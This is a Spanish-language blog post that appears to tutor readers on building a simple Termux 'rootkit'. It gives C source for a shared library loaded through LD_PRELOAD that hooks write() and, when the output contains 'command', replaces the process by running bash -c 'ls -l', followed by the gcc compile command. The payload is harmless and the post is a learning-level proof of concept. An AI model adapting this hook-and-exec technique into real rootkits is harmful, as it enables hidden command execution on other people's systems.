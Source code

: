 ```yaml
---
comments: true
layout: single
title: rootkit_termux
date: 2024-06-8
classes: wide
header:
  teaser: /assets/images/
  teaser_home_page: true
categories:
  - termux
tags:
  - progracion 
  - termux
---
```




# Mini tutorial de idea para crear un _rootkit_ para termux  

La idea principal es crear una biblioteca compartida en __C__ para suplantar la funcion  __write__ del
sistema. Utilizando  `LD_PRELOAD` que contiene una lista de objetos compartidos `ELF` especificados por el usuario.

Permite a los usuarios cargar estos objetos compartidos en el espacio de direcciones de un proceso antes que cualquier otra biblioteca compartida y antes de la ejecución del programa en sí.

### Sinopsis

```bash
export LD_PRELOAD=/path/to/candy.so:$LD_PRELOAD
```

###  Sinopsis de write

```cpp
#include <unistd.h>

ssize_t write(int fd, const void *buf, size_t count); 
```

# Descripcion

Escribe hasta __count__ bytes desde el `buffet` almacenando `buf` en el archivo al que hace referencia 
el descriptor de archivo `fd`. 

También utilizaremos la función `dlsym()` para realizar una búsqueda de símbolo. El cual sería la función __write__ en la biblioteca compartida especificada por `RTLD_NEXT` el cual indica que se debe buscar en la siguiente biblioteca compartida la lista de carga.

### Puntero a Función

Todas las funciones de _C_ están en punteros de actualidad a un punto en la memoria del programa donde existe algún código. El uso principal de un puntero de función es proporcionar una "devolución de llamada" a otras funciones (o para simular clases y objetos).

La sintaxis de una función es:

```
returnType (* nombre) (parámetros)
```

# Codigo

```cpp  
// Autor  : @demon_rip
// Nombre : candy

#include <dlfcn.h>
#include <stdio.h>
#include <unistd.h>

ssize_t write(int fildes, const void *buf, size_t nbytes) {
  // Puntera a  la  funcion   _write_
  ssize_t (*new_write)(int fildes, const void *buf, size_t nbytes);
  ssize_t result;
  //  Optenemos la direcion de  la  funcion  _write_ origina 
  new_write = (ssize_t(*)(int, const void *, size_t))dlsym(RTLD_NEXT, "write");

  // Buscar la palabra "command" en el buffer
  if (strstr((const char*)buf, "command") != NULL) { 
    // result = nbytes;
    char *args[] = {"/bin/bash", "-c", "ls -l", NULL};
    execvp(args[0],args);
  } else {
    result = new_write(fildes, buf, nbytes);
  }
  return result;
}
```

> Nota:  No se puede buscar en la condicion un comando . 

Este programa reacionara al intentar ejecutar un comando que no exista . Cualquir.


### Compilación 

```sh
gcc -ldl candy.c -fPIC -shared -D_GNU_SOURCE -o candy.so 
```

`-ldl` : Esto enlaza la biblioteca dinámica (`libdl`). La biblioteca `libdl` proporciona funciones para cargar dinámicamente bibliotecas compartidas en tiempo de ejecución.

`-fPIC`: Esta opción genera código independiente de la posición (Position Independent Code). Es necesario para crear bibliotecas compartidas para que el código generado pueda ser utilizado en cualquier dirección de memoria.

`-shared`: Esta opción indica que se debe crear una biblioteca compartida en lugar de un ejecutable. Las bibliotecas compartidas son archivos que pueden ser cargados en tiempo de ejecución por otros programas.

`-D_GNU_SOURCE`: Define la macro _GNU_SOURCE_. Esta macro habilita características y extensiones específicas de GNU en las bibliotecas estándar de C. Es útil para utilizar funciones y características adicionales que no están disponibles en el estándar ANSI C.


# Créditos 

A `@ivam3` por el cual obtuve una face beta de este código.



{% if page.comments %}
<div id="disqus_thread"></div>
<script>
    (function() { // DON'T EDIT BELOW THIS LINE
    var d = document, s = d.createElement('script');
    s.src = 'https://blok-termux.disqus.com/embed.js';
    s.setAttribute('data-timestamp', +new Date());
    (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
{% endif %} 



 
